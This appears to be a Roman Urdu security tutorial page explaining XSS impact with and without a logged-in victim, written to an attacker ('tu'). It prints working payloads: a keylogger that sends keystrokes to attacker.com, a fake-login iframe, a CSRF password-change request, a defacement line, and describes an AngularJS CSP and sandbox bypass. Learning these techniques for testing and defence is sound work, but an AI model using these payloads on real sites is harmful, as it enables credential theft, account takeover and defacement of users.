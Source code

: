 # 🔐 XSS aur Session Hijack — Real Life aur Lab Mein Farq

## ❓ Question:

"Ni dekho yeh baat, agar hum kisi ko aik link bhejtay hain malicious website ka WhatsApp par aur woh uss website mein login hi nahi hain, to phir agar XSS chal bhi gaya to hum session cookie to nahi le saktay na? Phir kya faida?"

---

## ✅ Pehla Sawal — Kya XSS sirf session cookie ke liye hota hai?

Nahi bhai! XSS ka kaam sirf cookie lena nahi hota. XSS aik **powerful tool** hai attacker ke haath mein, aur isse bohot kuch hasil ho sakta hai depending on situation.

---

## ☠️ Agar Victim Logged-in Hai:

Toh tu:

* `document.cookie` nikal sakta hai
* us cookie ko Burp Suite mein paste karke victim ban sakta hai
* uski ID, email, account, even admin panel access kar sakta hai

👉 Yahan XSS ka maximum faida milta hai

---

## 😶 Agar Victim Logged-in Nahi Hai:

Toh:

* `document.cookie` ya toh empty hoga ya useless
* tu session hijack nahi kar sakta

👉 Lekin XSS ke aur bhi kaam hain:

---

## 🔥 XSS ke Real Faide:

### 1. **Keylogger Banana**

User kuch bhi type kare (email, password, comment), tu usse le sakta hai:

```html
<script>
document.onkeypress = function(e){
 fetch('https://attacker.com/log?key=' + e.key)
}
</script>
```

### 2. **Phishing Form Inject Karna**

Fake login box show karna:

```html
<iframe src="https://fake-login.com"></iframe>
```

### 3. **CSRF Trigger Karna** (via XSS)

```js
fetch('/change-password', {
 method: 'POST',
 body: 'password=hacked'
})
```

### 4. **Stored XSS ka use Admin ko phasane ke liye**

Comment, profile bio, support ticket etc. mein payload lagana — jab admin dekhega, tab XSS chalega.

### 5. **Page ka UI badal dena (Defacement)**

```js
document.body.innerHTML = "<h1>Hacked by Habib!</h1>"
```

---

## 📲 WhatsApp ya Email mein XSS Link bhejna

Agar tu kisi ko WhatsApp ya email mein XSS link bhejta hai, toh XSS tabhi kaam karega jab:

1. Victim click kare
2. Victim logged-in ho vulnerable website pe
3. XSS wala payload page pe render ho

Agar yeh teeno nahi hue, toh XSS ka faida nahi hota.

---

## 💡 Stored XSS vs Reflected XSS

| Type      | Impact       | Victim Login Required?         |
| --------- | ------------ | ------------------------------ |
| Reflected | Instant      | ✅ Haan zaroori hai             |
| Stored    | Delay (bait) | ❌ Nahi (admin ko phasate hain) |

---

## 🧠 Real Life Analogy:

* Samajh le ke "cookie" us website ka "gate pass" hai
* Agar banda office (website) mein hi nahi ghusa (login nahi hai), toh gate pass nikaal ke kya karega?
* Lekin agar woh andar hai (logged in), toh gate pass (session cookie) se attacker bhi andar ghus sakta hai

---

## 📋 Final Takeaway

> ✅ XSS sirf session cookie ka game nahi hai — phishing, keylogging, CSRF, fake UI, admin trap — sab kuch kar sakta hai ❌ Session hijack tabhi hota hai jab banda login ho 🧠 Smart attacker yeh sab use karta hai depending on victim situation

---

## ✅ Extra: Jab hum kisi website ka input field dekhte hain jo AngularJS use karta ho aur us pe CSP (Content Security Policy) lagi ho, toh hum direct window object ya alert(1) nahi chala sakte, kyunki CSP in cheezon ko block kar deta hai. Lekin agar woh input field kisi event jese focus ko handle karta ho, toh hum us event ka use karke \$event.path access kar sakte hain — jo ek array hota hai jisme input se le kar last mein window object tak saari chain hoti hai. Fir hum AngularJS ka orderBy: filter use karte hain jisse ek sorting operation simulate hoti hai. Is filter ke andar hum .constructor.from(\[1], alert) ka use karte hain — jo secretly ek alert(1) chala deta hai bina directly window\.alert() likhe. Is tareeqe se hum AngularJS sandbox aur CSP dono ko confuse karke XSS achieve kar lete hain.
